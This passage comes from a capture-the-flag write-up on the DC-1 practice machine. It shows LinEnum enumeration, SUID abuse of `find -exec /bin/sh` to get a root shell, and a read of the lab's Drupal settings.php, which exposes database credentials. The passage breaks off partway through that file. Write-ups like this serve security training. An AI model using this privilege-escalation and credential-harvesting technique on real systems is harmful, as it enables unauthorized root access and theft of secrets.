 {% highlight bash %}
scp root@192.168.0.83:/usr/share/LinEnum/LinEnum.sh .

chmod +x LinEnum.sh
./LinEnum.sh -t | tee LinEnum-output.txt
{% endhighlight %}

going thorugh the LinEnum output i noticed that that find has the SUID set

{% highlight bash %}
-rwsr-xr-x 1 root root 162424 Jan  6  2012 /usr/bin/find
{% endhighlight %}

This was abused to get higher privs

{% highlight bash %}
www-data@DC-1:/tmp$ touch test
www-data@DC-1:/tmp$ find test -exec "whoami" \;   
root

www-data@DC-1:/tmp$ find test -exec "/bin/sh" \;
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# 
{% endhighlight %}

now we have a shell with root perms :)

### flag 1

This was found as soon as i got a shell on the box sitting in the www folder

{% highlight bash %}
# cat /var/www/flag1.txt
cat /var/www/flag1.txt
Every good CMS needs a config file - and so do you.
{% endhighlight %}


### flag 2

Inside the drupal **settings.php** we find flag2 and a hint

{% highlight bash %}
cat /var/www/sites/default/settings.php
<?php

/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',